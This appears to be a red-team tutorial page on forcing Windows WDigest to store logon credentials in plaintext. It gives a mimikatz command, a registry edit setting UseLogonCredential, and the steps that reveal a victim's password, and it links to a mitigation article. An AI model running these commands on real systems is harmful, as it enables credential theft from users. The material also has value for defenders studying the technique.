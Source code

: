 # Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer  Windows versions.&#x20;

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:

{% code title="attacker@victim" %}
```csharp
sekurlsa::wdigest
```
{% endcode %}

Note the password field is null:

![](<../../.gitbook/assets/mimikatz 2.2.0 x64 (oe.eo) 5\_13\_2019 10\_42\_39 PM.png>)

Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:

{% code title="attacker@victim" %}
```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
{% endcode %}

![](<../../.gitbook/assets/mimikatz 2.2.0 x64 (oe.eo) 5\_13\_2019 10\_44\_54 PM.png>)

Say, now the victim on the target system spawned another shell:

{% code title="victim@local" %}
```csharp
runas /user:mantvydas powershell
```
{% endcode %}

Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:

![](../../.gitbook/assets/wdigestdemo.gif)

## References

{% embed url="https://p16.praetorian.com/blog/mitigating-mimikatz-wdigest-cleartext-credential-theft" %}

